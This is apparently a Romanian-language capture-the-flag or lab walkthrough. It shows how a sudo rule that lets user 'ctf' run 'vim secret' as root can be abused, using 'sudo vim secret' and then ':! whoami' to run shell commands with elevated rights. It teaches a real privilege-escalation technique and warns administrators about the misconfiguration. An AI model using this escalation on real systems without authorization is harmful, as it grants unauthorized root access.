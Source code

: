 # Critical Thing

În urma execuției comenzii `sudo -l` observăm că userul `ctf` poate executa `vim secret` cu drepturi de sudo:

``` shell
$ sudo -l
Matching Defaults entries for ctf on fb2f5cf6e0aa:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User ctf may run the following commands on fb2f5cf6e0aa:
    (root) NOPASSWD: /usr/bin/vim secret
```

În acest exemplu nu va fi important conținutul efectiv al fisierului `secret`.

Faptul că `vim` permite execuția de comenzi de shell este lucrul cu adevărat critic în configurația curentă.

Dacă un admin omite din vedere acest aspect, urmările pot fi catastrofale.

Executați următoarea comandă (nu omiteți `sudo`):

``` shell
sudo vim secret
```

După care executați:

```
:! whoami
```

Comanda anterioară execută comenzi de shell din interiorul `vim`.
Observați că acum putem executa comenzi de shell cu drepturi elevate.
